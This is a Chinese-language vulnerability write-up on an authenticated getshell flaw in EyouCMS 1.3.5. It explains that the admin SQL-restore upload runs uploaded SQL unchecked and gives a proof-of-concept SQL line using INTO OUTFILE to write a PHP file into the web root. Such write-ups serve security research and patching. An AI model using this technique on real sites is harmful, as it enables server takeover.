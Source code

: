 Eyoucms 1.3.5 后台getshell
==========================

一、漏洞简介
------------

### 最新版本删除该功能

二、漏洞影响
------------

Eyoucms 1.3.5

三、复现过程
------------

### 漏洞分析

相关功能代码在`application/admin/controller/Tools.php`

     public function restoreUpload()
     {
         $file = request()->file('sqlfile');
         if(empty($file)){
             $this->error('请上传sql文件');
         }
         // 移动到框架应用根目录/data/sqldata/ 目录下
         $path = tpCache('global.web_sqldatapath');
         $path = !empty($path) ? $path : config('DATA_BACKUP_PATH');
         $path = trim($path, '/');
         $image_upload_limit_size = intval(tpCache('basic.file_size') * 1024 * 1024);
         $info = $file->validate(['size'=>$image_upload_limit_size,'ext'=>'sql,gz'])->move($path, $_FILES['sqlfile']['name']);
         if ($info) {
             //上传成功 获取上传文件信息
             $file_path_full = $info->getPathName();
             if (file_exists($file_path_full)) {
                 $sqls = Backup::parseSql($file_path_full);
                 if(Backup::install($sqls)){
                    //array_map("unlink", glob($path));
                     /*清除缓存*/
                     delFile(RUNTIME_PATH);
                     /*--end*/
                     $this->success("执行sql成功", url('Tools/restore'));
                 }else{
                     $this->error('执行sql失败');
                 }
             } else {
                 $this->error('sql文件上传失败');
             }
         } else {
             //上传错误提示错误信息
             $this->error($file->getError());
         }
     }

上传过程中只验证了文件的大小和后缀，之后解析sql语句并执行。解析sql函数不再贴出，但并没有检测文件内容正常的sql语句都能通过解析。install函数直接执行了sql语句。

### 漏洞复现

登陆后台在`高级选项->备份还原->数据还原`可选择上传sql文件并执行

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.3.5后台getshell/media/rId27.png)

上传sql文件内容为（需要知道网站绝对路径）

     select '<?php phpinfo(); ?>' into outfile 'D:\\tools\\phpstudy\\phpstudy_pro\\WWW\\testcms\\1.php';

上传成功后在网站根目录生成webshell。

![](/Users/aresx/Documents/VulWiki/.resource/Eyoucms1.3.5后台getshell/media/rId28.png)
